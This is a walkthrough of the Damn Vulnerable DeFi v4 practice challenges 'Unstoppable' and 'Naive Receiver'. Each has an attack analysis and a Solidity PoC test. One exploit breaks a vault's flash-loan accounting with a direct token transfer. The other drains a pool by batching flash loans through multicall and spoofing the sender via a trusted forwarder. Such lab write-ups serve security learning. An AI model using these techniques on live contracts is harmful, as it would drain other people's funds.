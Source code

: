 # Damn Vulnerable DeFi v4 Walkthorugh

## 1.UNSTOPPABLE
Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans. _See [challenges/unstoppable/](https://www.damnvulnerabledefi.xyz/challenges/unstoppable/)_

### Objective
_from `_isSolved()`in test_
1. _Flashloan check must fail_

### Attack Analysis

- The balance of `UnstoppableVault` is not accounted for unexpected changes (e.g. force feeding ERC20 tokens), by just transfering a small amount to the vault, the below condition fail and revert

### PoC

```solidity
function test_unstoppable() public checkSolvedByPlayer {
    token.transfer(address(vault), 1e18);
}
```
_See [test/unstoppable/Unstoppable.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/unstoppable/Unstoppable.t.sol)_

----
## 2.NAIVE RECEIVER

### Objective
_from `_isSolved()`in test_
1. _Player must have executed two or less transactions_
2. _The flashloan receiver contract has been emptied_
3. _Pool is empty too_
4. _All funds sent to recovery account_

### Attack Analysis
- The FlashLoanReceiver starts with 10 ETH and incurs a 1 ETH fee to the pool for each flash loan it takes. The vulnerability is that the `onFlashLoan` function doesn't verify the authorization of the flash loan's origin. By executing 10 flash loans with an amount of 0, we can deplete the FlashLoanReceiver's 10 ETH. However, the constraint is that the Nonce must be under 2. Since NaiveReceiverPool supports Multicall, we can leverage it to conduct all 10 flash loan operations in a single transaction, thereby meeting the Nonce requirement.
- The next step is to extract the initial 1000 ETH from the NaiveReceiverPool. The only way to transfer assets is through the `withdraw` function. For this function to execute, `_msgSender` must meet the conditions where `msg.sender` equals `trustedForwarder` and `msg.data.length` is at least 20 bytes, which leaves room for tampering.
- Lastly, using a forwarder to execute a meta-transaction, the `msg.sender == trustedForwarder` condition can be met.

### POC

```solidity
 function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDataArray = new bytes[](11);
        for (uint256 i = 0; i < 10; i++) {
            callDataArray[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDataArray[10] = abi.encodePacked(
            abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );

        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDataArray);

        BasicForwarder.Request memory request =
            BasicForwarder.Request(player, address(pool), 0, gasleft(), forwarder.nonces(player), callData, 1 days);

        bytes32 requestHash =
            keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }
```
See [test/naive-receiver/NaiveReceiver.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/naive-receiver/NaiveReceiver.t.sol)

---- 